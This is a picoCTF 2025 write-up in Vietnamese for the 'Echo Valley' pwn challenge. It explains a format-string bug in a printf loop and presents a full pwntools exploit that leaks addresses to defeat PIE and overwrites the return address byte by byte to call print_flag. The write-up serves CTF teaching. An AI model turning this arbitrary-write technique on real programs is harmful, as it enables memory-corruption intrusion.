





<div align='center'>

## **picoCTF 2025 writeup: Echo Valley (pwn)**

</div>

## **Checksec**



Với binary, ta chỉ quan tâm đến 2 phần: `PIE` và `Full RELRO`
- `PIE` (Position Independent Executable): binary có thể chạy ở bất kỳ vị trí nào trong memory (địa chỉ của các vùng nhớ không cố định) => không thể biết địa chỉ của các hàm trong binary trước khi chạy
- `Full RELRO`: read-only segment của binary sẽ được đóng lại sau khi binary được load vào memory => không thể thay đổi GOT (Global Offset Table) của binary

## **Vulnerability**

Nhìn vào source code:

```c
while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
```

Ta dễ dàng nhận ra bug format string ở đây: `printf(buf)` và nó cũng ở trong vòng lặp vô hạn => có thể dùng bao lần tùy thích

Và ta cũng thấy hàm `print_flag()` sẽ output file `flag.txt`

```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}
```

Vậy hướng đi khá rõ ràng: sử dụng bug format string bằng cách nào đó để khiến chương trình gọi hàm `print_flag()`

## **Analysis**

Với bug format string thì ta có thể đọc được giá trị ở bất kỳ địa chỉ nào trong vùng nhớ stack và nguy hiểm hơn là có thể ghi giá trị vào bất kỳ địa chỉ nào trong vùng nhớ. Vậy ta sẽ đọc gì và ghi gì?

Như đề cập ở phần **Checksec**, tuy `PIE` đã có bật nhưng nếu ta biết thông tin về địa chỉ của một chỉ dẫn nào đó trong khi chương trình vẫn đang chạy thì `PIE` sẽ trở nên vô dụng và sẽ tính được địa chỉ của `print_flag()`

Tiếp theo, ta cần địa chỉ của vùng nhớ stack để tính toán và ghi đè địa chỉ trả vềvề bằng địa chỉ của `print_flag()`

Đặt gdb breakpoint ở `printf(buf)` và xem stack layout:







Ta đã thấy được địa chỉ của `main` cũng như địa chỉ của vùng nhớ stack. Sau vài lần fuzzing thì ta cũng biết offset của nó khi ta dùng format string `%p`



Lạm dụng việc khai thác bug format string vô hạn lần, ta có thể ghi đè từng byte một để giảm thiểu thời gian chờ đợi

```python
def arb_write_8(addr, data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%8$hhn".encode()
    else:
        payload = f"%{data}c%8$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=pwn.p64(addr)
    print(f"Payload: {payload}")
    p.sendline(payload)
    print(p.recv())
    
def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
```

## **Exploit**

Và đây là payload cuối cùng:

```python
import pwn


elf  = pwn.ELF('./valley')
p = elf.process()

def arb_write_8(addr, data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%8$hhn".encode()
    else:
        payload = f"%{data}c%8$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=pwn.p64(addr)
    print(f"Payload: {payload}")
    p.sendline(payload)
    print(p.recv())
    
def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
    

p.sendlineafter(b'Shouting: \n', b'%27$p %56$p')
p.recvuntil(b'distance: ')


leak = p.recvline().strip().split()
main_addr = int(leak[0], 16)
win_addr = main_addr + elf.symbols.print_flag - elf.symbols.main
rip_addr = int(leak[1], 16) - 0x120


print(f'Main address: {hex(main_addr)}')
print(f'RIP address: {hex(rip_addr)}')

arb_write_64(rip_addr, win_addr)
p.interactive()
```
